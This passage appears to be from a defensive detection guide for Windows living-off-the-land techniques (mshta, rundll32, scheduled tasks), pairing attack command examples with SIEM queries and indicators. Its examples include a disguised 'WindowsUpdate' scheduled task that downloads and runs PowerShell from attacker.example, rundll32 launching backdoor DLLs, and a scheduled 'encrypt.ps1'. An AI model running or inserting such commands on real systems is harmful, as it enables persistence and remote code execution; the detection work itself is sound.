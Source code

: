 #### SIEM Alert Pattern
```
index=sysmon (EventCode=1 OR EventCode=4688) Image="*\\mshta.exe" 
(CommandLine="*http*://*" OR CommandLine="*javascript:*" OR CommandLine="*.hta")
| stats count by host, user, ParentImage, CommandLine
```

---

### Rundll32 Detection

#### Attack Command Examples
```powershell
rundll32.exe C:\Users\Public\backdoor.dll,Start

rundll32.exe url.dll,FileProtocolHandler "http://attacker.example/update.html"

rundll32.exe C:\Windows\Temp\loader.dll,Run
```

#### Detection Indicators
- DLL execution from suspicious locations (Public, Temp)
- URL protocol handler invocation
- Unusual export function calls
- Network-connected rundll32 processes

#### SIEM Alert Pattern
```
index=sysmon (EventCode=1 OR EventCode=4688 OR EventCode=7) Image="*\\rundll32.exe" 
(CommandLine="*\\Users\\Public\\*" OR CommandLine="*url.dll,FileProtocolHandler*" OR 
CommandLine="*\\Windows\\Temp\\*")
| stats count by host, user, ParentImage, CommandLine
```

---

### Scheduled Tasks Detection

#### Attack Command Examples
```powershell
schtasks /Create /SC ONLOGON /TN "WindowsUpdate" /TR "powershell -NoP -NonI -Exec Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://attacker.example/ps1')"

schtasks /Create /SC DAILY /TN "DailyJob" /TR "C:\Users\Public\encrypt.ps1" /ST 00:05

schtasks /Run /TN "WindowsUpdate"
```

#### Detection Indicators
- Task creation with `/Create` parameter
- Benign-sounding task names (WindowsUpdate, Maintenance)
- Trigger types: ONLOGON for persistence
- PowerShell execution from scheduled tasks
- Task execution with `/Run` parameter
